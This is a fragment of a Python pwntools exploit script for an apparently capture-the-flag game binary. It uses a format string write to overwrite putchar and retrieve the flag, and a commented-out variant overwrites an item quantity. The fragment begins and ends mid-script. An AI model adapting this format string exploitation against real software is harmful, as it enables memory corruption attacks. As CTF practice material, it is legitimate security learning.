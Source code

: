 ```python
f.execute_writes()
p.recvlines(66)

p.sendline("g")
p.sendline("0.001")
p.sendline("3")

p.recvlines(10)
reply = p.recvline()
while reply[:5] == "Wrong":
	p.sendline("")
	p.sendline("g")
	p.sendline("0.0001")
	p.sendline("3")
	p.recvlines(43)
	reply = p.recvline()

log.info("Overwritten putchar to win")
p.sendline("")
p.recvlines(1)
flag = p.recvline()
log.info("Flag found: %s" % (flag))
p.close()

# Below is to also get win the game, only works on local

'''
p.recvlines(34)

player_qty = player + 0x124
p.sendline("c")
f = FmtStr(send, offset=9)
f.write(player_qty, 10000000)
f.execute_writes()
p.recvlines(37)

p.sendline("g")
p.sendline("0.001")
p.sendline("3")

p.recvlines(13)
reply = p.recvline()
while reply[:5] == "Wrong":
	p.sendline("")
	p.sendline("g")
	p.sendline("0.0001")
	p.sendline("3")
	p.recvlines(49)
	reply = p.recvline()

log.info("Overwritten item 5 qty to 10000000")

p.sendline("")
p.sendline("s")
p.sendline("5")
p.sendline("10000000")

log.info("Selling all items")
#p.interactive()
p.recvlines(79)

player_turn = player + 0x4

```